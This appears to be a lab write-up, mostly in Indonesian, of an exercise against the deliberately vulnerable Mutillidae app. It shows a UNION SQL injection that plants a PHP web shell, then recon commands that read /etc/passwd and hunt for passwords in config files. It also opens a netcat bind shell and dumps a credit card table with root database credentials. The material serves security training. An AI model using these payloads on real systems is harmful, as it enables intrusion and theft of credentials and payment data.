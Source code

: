 # Lesson 10 : SQL Injection Union Exploit #3 (Create PHP Execution Script)

## Start Web Browser Session to Mutillidae
- Buka browser kemudian akses Mutillidae sesuai ip metasploit pada alamat http://10.0.1.100/mutillidae
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/1/start_browser.png "Home page")

## Go To User Info Page
1. Go to User Info
   - OWASP Top 10 --> A1 - SQL Injection --> SQLi - Extract Data --> User Info 

## Inject Backdoor into User Info Page
1. Inspect the Name Textbox with Firebug
   - Klik kanan pada Textbox Name, kemudian inspect element
2. Change Text Box Size
   - Pada bagian size, tambahkan kapasistasnya dari yg semula 20 menjadi 100
3. Second Union SQL Injection Attempt
   - Pada kolom Textbox **Name** isikan 
```
	' union select null,null,null,null,'<form action="" method="post" enctype="application/x-www-form-urlencoded"><input type="text" name="CMD" size="50"><input type="submit" value="Execute Command" /></form><?php echo "<pre>";echo shell_exec($_REQUEST["CMD"]);echo "</pre>"; ?>' INTO DUMPFILE '/var/www/html/mutillidae/execute_command.php' -- 
```
   - Pastikan anda menambahkan spasi setelah karakter **`--`**
   - Klik tombol View Account Details
4. Viewing the Results
	- Scroll kebawah untuk melihat hasilnya
	- Perhatikan hasilnya

## Using the Backdoor for Basic Reconnaissance
1. Initial Reconnaissance
	- Buka url berikut pada browser 
	http://10.0.1.100/mutillidae/execute_command.php
	- Ketikkan perintah berikut pada textbox
	  ```whoami; pwd```
	- Klik tombol Execute Command
2. Who is Logged On
   - Ketikkan perintah berikut pada textbox
	 ```w```
   - Klik tombol Execute Command
3. Exploring /etc/passwd
   - Ketikkan perintah berikut pada textbox
	 ```cat /etc/passwd```
   - Klik tombol Execute Command
4. Network Reconnaissance
   - Ketikkan perintah berikut pada textbox
```
   netstat -nao | grep "0.0.0.0:"
```
   - Klik tombol Execute Command

## Using the Backdoor for Database Reconnaissance
1. Database Reconnaissance
   - Ketikkan perintah berikut pada textbox
```
   	find * -name "*.php" | xargs grep -i "password" | grep "="
```
   - Klik tombol Execute Command
2. View Database Authentication Attributes
   - Ketikkan perintah berikut pada textbox
```
   cat config.inc | grep -v "<?php"
```
   - Klik tombol Execute Command

##  Using the Backdoor for Netcat Reconnaissance
1. Netcat Reconnaissance
   - Ketikkan perintah berikut pada textbox
```
   which nc; netstat -nao | grep 4444 | wc -l
 ```
   - Klik tombol Execute Command
2. Execute Netcat
   - Ketikkan perintah berikut pada textbox
```
   mkfifo /tmp/pipe;sh /tmp/pipe | nc -l 4444 > /tmp/pipe
```
   - Klik tombol Execute Command
3. On BackTrack, Start up a "another" terminal window
	- Buka terminal lain pada kali linux
4. Connect to Netcat
   - Konek ke mutillidae menggunkan netcat
   - Ketikkan perintah : `nc 10.0.1.100 4444`
   - Ketikkan perintah : `hostname` untuk melihat hostname
   - Ketikkan perintah : `whoami` untuk melihat user yang digunakan
5. View Credit Card Information
   - Pada terminal ketikkan printah-perintah berikut :
```
   echo "show databases;" | mysql -uroot -psamurai
   echo "use nowasp; show tables;" | mysql -uroot -psamurai
   echo "select * from nowasp.credit_cards;" | mysql -uroot -psamurai
```